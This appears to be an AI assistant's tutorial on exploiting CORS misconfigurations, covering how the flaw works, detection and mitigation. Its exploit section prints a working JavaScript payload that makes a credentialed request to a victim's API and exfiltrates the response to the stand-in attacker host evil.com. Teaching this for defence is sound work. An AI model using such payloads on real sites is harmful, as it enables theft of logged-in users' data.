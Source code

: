Here's a detailed **CORS Misconfiguration Exploit Pipeline** when the server uses a **wildcard (`*`) origin** or **reflects the `Origin` header** insecurely.

---

## 🌐 **CORS Basics**

Cross-Origin Resource Sharing (CORS) is a browser security feature that controls how resources on one origin can be accessed by scripts on another.

If misconfigured, it allows **any origin** to read sensitive data (like user credentials, API responses) or perform authenticated actions.

---

## 🚩 **Types of Misconfigurations**

1. `Access-Control-Allow-Origin: *` with sensitive data
2. Reflecting `Origin` without validation
3. `Access-Control-Allow-Credentials: true` with wildcard `*` (which is **invalid**, but if bypassed, critical)
4. Whitelist matching by **string contains** (e.g., `example.com` also allows `evil-example.com`)
5. Misconfigured wildcard subdomains (`*.domain.com` includes `attacker.domain.com`)
6. CORS allowed on **sensitive endpoints** like `/api/user`, `/session`, `/admin`

---

## 🧪 Exploit Pipeline: **Wildcard or Reflective CORS**

### 🎯 Goal:

Steal sensitive data from an authenticated user (like session info, personal data, or tokens) by making the browser send authenticated requests **from the attacker's site**.

---

### 🧷 Step-by-Step Exploit (Reflective Origin)

#### ✅ Target endpoint is vulnerable:

```http
Access-Control-Allow-Origin: <whatever-origin-was-sent>
Access-Control-Allow-Credentials: true
```

---

### 💣 Exploit Steps

#### 🧑‍💻 1. Attacker hosts this malicious script on `evil.com`:

```html
<script>
fetch("https://vulnerable.com/api/userinfo", {
  credentials: "include" // sends session cookie
})
.then(res => res.text())
.then(data => {
  fetch("https://evil.com/log?data=" + btoa(data)); // sends to attacker's server
});
</script>
```

#### 📨 2. Victim visits `evil.com` (while logged into `vulnerable.com`).

#### 🔐 3. Browser sends authenticated request with cookies to `https://vulnerable.com/api/userinfo`.

#### 🎯 4. Since the origin is reflected, the server replies with:

```http
Access-Control-Allow-Origin: evil.com
Access-Control-Allow-Credentials: true
```

✅ So the victim's browser **allows the JavaScript to read** the private response.

#### 📤 5. Data is exfiltrated to the attacker.

---

## 🔎 Detection

1. Test endpoints with a custom Origin (e.g., `Origin: evil.com`)
2. Check `Access-Control-Allow-Origin` in the response:
    - Is it reflected?
    - Is it `*` and sending credentials?

---

## 🛡️ Mitigation

- Do **not** use `Access-Control-Allow-Origin: *` on endpoints serving sensitive data.
- Avoid reflecting `Origin` unless validated against a strict whitelist.
- **Never** use `Access-Control-Allow-Credentials: true` with wildcard origins.
- Use allowlists that **strictly match** origin strings, not substrings.

---

Would you like a PoC you can run in a Node.js or Flask app to demonstrate this misconfiguration?